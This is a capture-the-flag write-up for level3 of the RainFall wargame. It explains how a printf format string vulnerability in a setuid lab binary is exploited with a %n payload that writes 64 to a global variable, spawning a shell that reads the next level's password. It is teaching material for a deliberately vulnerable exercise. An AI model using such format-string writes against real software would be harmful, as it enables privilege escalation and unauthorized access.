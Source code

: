 Level3 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

Level3 rights:
```Shell
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
```

When testing the binary, we notice that it waits for user input and prints it back to us.
Decompiling with Ghidra on https://dogbolt.org/ shows four things:
- `main()` calls a `v()` function
- `v()` uses a buffer of 520 bytes that is used with `fgets()`, preventing us from doing the usual
exploitation of `gets()`
- however, `printf()` is also used and takes as its sole argument the buffer itself, which is unsafe
- a condition checks if `m` (a global variable) equals `0x40` (64). If true, it opens a terminal for us!

The goal is to replace the content of `m` with 64.
To do so, we can exploit `printf()` with a technique called [Format String Attack](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/):

_"[...]For example, if we can make the format argument "%x.%x.%x.%x", printf will pop off four stack values and print them in hexadecimal, potentially leaking sensitive information.
printf can also index to an arbitrary "argument" with the following syntax: "%n$x" (where n is the decimal index of the argument you want)."_

First, we must find the address of `m`. Disassembling `v()` with gdb shows us an address stored in `EAX`, then compared with 64.
```Shell
(gdb) disas v
[...]
 0x080484da <+54>:    mov    0x804988c,%eax
 0x080484df <+59>:    cmp    $0x40,%eax
[...]
 ```
This is the address of `m` converted into Little Endian: `\x8c\x98\x04\x08`.

With a bit of research, we stumbled upon the `%n` specifier. `%n` calculates how many characters have been printed, then stores the result at a specified `int*`.
Example:
```C
int a = 0;
printf("ABC%n", &a);
printf("%d", a);
```
Output:
```Shell
ABC
3
```

We can abuse `%n` to make it store the value (64) at the location of our choice (address of `m`).
Using the buffer is the best option: since we cannot directly pass the address of `m` directly to `%n`, we can give `%n` an index at which it is stored.
This is how we can use multiple `%p` to print the values on the stack, thus finding at which index our buffer starts:
```Shell
level3@RainFall:~$ ./level3
AAAA %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```

Now we know that it starts at the 4th index. Instead of writing `AAAA` (aka `0x41414141`), we will write
the address of `m` here.
Our buffer will contain [the address of `m`][A * 60], which makes it a size of 64. Perfect for abusing `%n`!
It will calculate a size of 64, then fetch the 4th index to store the value.
So our payload will be:
```Shell
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")' > /tmp/payload3
```

And the result is:
```Shell
level3@RainFall:~$ cat /tmp/payload3 - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```